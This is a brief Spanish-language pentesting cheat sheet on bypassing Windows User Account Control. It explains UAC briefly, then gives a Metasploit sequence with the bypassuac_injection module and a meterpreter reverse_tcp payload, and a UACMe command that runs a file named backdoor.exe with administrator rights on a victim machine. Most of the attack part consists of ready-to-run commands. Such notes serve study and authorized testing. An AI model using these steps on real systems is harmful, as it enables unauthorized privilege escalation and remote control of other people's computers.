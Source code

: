 ```yaml
---
title: UAC Bypassing
---
```

# ¿Qué es?

El *User Account Control* ó *UAC*, es una medida que previene cambios no autorizados en el sistema. Lanza una ventana que nos pregunta si queremos ejecutar como administrador.

# Explotación

Para poder bypasearlo, debemos tener una cuenta con acceso al grupo de administradores locales. UAC tiene varios niveles de integridad, si la protección se asigna por debajo de *high*, podremos ejecutar programas con privilegios elevados sin tener que hacer click en la ventana emergente.

## [[metasploit]]

```bash
use exploit/windows/local/bypassuac_injection
set session 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

## UACMe

Explota la herramienta de Windows, *AutoElevate*. Puedes encontrarla en este [repo](https://github.com/hfiref0x/UACME).

### Uso

Debemos subir el binario a la máquina víctima y podremos ejecutar un archivo con privilegios de administrador:

```powershell
.\akagi64.exe 23 C:\Temp\backdoor.exe
```